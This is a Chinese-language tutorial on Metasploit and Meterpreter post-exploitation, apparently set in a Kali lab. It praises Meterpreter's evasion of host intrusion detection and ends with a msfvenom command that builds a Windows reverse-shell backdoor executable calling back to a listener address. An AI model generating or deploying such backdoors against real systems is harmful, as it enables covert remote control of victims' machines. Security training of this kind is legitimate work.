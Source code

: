 # 1.**Metasploit简介**

The Metasploit Framework 的简称。 MSF 高度模块化，即框架由多个 module 组成，是全球最受欢迎的渗透测试工具之一。

是一款开源安全漏洞利用和测试工具，集成了各种平台上常见的溢出漏洞和流行的shellcode ，并持续保持更新。

metasploit 涵盖了渗透测试中全过程，你可以在这个框架下利用现有的 Payload进行一系列的渗透测试。

## 1.1.**Metasploit下载**

在kail中自带Metasploit工具，这里可以直接使用。若确实需要下载在其它位置，那么也可以去官网进行下载，同时在官网中还附带相应的官方手册。

[官网](https://www.offensive-security.com/metasploit-unleashed/introduction/)

## 1.2.**其它参考**

这里可以参考我的Metasploit工具使用(上)。

## 1.3.**本章简述**

本章主要是在通过之前的测试获取到目标机的获取目标机的Meterpreter Shell后，就进入了Metasploit的后期渗透利用阶段。

# 2.**Meterpreter**

## 2.1.**简介**

Meterpreter是 Metasploit 框架中的一个扩展模块，作为后渗透阶段的攻击载荷使用，在后渗透阶段具有强大的攻击力，攻击载荷在溢出攻击成功以后给我们返回一个控制通道。使用它作为攻击载荷能够获得目标系统的一个 meterpreter shell链接。

## 2.2.**优点**

总体来说Meterpreter的有点就是易于隐藏，不需要对磁盘进行任何写入操作，因此 HIDS（基于主机的入侵检测系统）很难对它做出响应使用加密通信协议，而且可以同时与几个信道通信在被攻击进程内工作，不需要创建新的进程，易于在多进程之间迁移，平台通用，简化任务创建多个会话，利用会话进行渗透运行的时候系统时间是变化的，跟踪它、终止它非常困难。

## 2.3.**注意事项**

若想免提权测试，那么在木马发送到靶机的时候，一定要右击以管理员权限运行，否则在后面的学习与测试中，可能会存在权限不足的情况，当然如果想练习提权那么就可以双击运行即可。

后续的学习测试后，会存在很多地方需要权限，所以看自己的想法吧。

## 2.4.**整体攻击流程**

这里演示一下创建后门与获取到shell权限的整体流程，具体的流程请参考我提供的Metasploit工具使用(上)，在这个里面有具体的解释，这里我就直接输入命令，并不在进行过多的赘述。

### 2.4.1.**创建后门**

这里通过下面的命令创建一个后缀为exe的后门文件，该文件生成在当前kail的根目录下。

```
命令：msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.20 LPORT=4444 -f exe > shell.exe
```

